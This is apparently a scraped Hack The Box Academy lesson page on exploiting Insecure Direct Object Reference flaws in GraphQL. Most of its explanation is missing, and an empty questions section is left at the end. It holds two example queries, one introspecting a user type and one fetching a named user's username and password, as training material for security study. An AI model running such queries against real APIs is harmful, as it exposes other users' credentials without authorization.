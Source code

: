 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/271/section/3153
// Platform Version: V1
// Module ID: 271
// Module Name: Attacking GraphQL
// Module Difficulty: Medium
// Section ID: 3153
// Section Title: Insecure Direct Object Reference (IDOR)
// Page Title: Hack The Box - Academy
// Page Number: 03
-->

# Insecure Direct Object Reference (IDOR)

**Module Name:** Attacking GraphQL **Page Number:** 03

#### 

#### ATTACKING GRAPHQL Mini-Module

# Insecure Direct Object Reference (IDOR)

## Identifying IDOR

![https://academy.hackthebox.com/storage/modules/271/idor_1.png](https://academy.hackthebox.com/storage/modules/271/idor_1.png)

![https://academy.hackthebox.com/storage/modules/271/idor_2.png](https://academy.hackthebox.com/storage/modules/271/idor_2.png)

## Exploiting IDOR

``` graphql
{
  __type(name: "UserObject") {
    name
    fields {
      name
      type {
        name
        kind
      }
    }
  }
}
```

![https://academy.hackthebox.com/storage/modules/271/idor_3.png](https://academy.hackthebox.com/storage/modules/271/idor_3.png)

``` graphql
{
  user(username: "test") {
    username
    password
  }
}
```

![https://academy.hackthebox.com/storage/modules/271/idor_4.png](https://academy.hackthebox.com/storage/modules/271/idor_4.png)

# 

# 

#### Questions

####